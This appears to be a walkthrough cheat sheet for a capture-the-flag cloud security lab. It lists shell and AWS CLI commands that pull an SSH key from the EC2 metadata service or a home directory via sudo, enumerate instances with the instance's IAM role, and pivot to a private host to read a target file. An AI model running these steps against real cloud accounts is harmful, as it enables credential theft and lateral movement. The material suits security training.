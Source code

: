 # Mission 2 cheat sheet


This mission is focused on using the metadata server.


  * Given: Instance ip, user and password
  * Variables: $id, $instance_ip


$ `ssh eviluser@$instance_ip`

Log into the instance to look around.


## Route 1: Use the metadata server to get the key

$ `curl 169.254.169.254/latest/user-data`

The SSH key is written using the startup script.


$ `vim ssh_key.pem; chmod 400 ssh_key.pem`

Write the key in a file and set the permissions for SSH to accept it.


## Route 2: Look around in the linux system to get the key

$ `sudo su`

The current user is sudoer.


$ `cd /home/ec2-user; chmod 400 SauerCloud-mission2-keypair-Evilcorp-Evilkeypair-$id`

The key is stored in the home dir.


## Once the SSH key is obtained

$ `aws --region us-east-1 ec2 describe-instances`

List the current instances using the instance's IAM role. The `--region us-east-1` parameter is required when using an EC2 instance's IAM role.


$ `ssh -i ssh_key.pem ec2-user@<private ip address of private instance>`

Log in to the second instance with no public ip address.


$ `cat ultra-sensitive-blueprints.txt`

You win!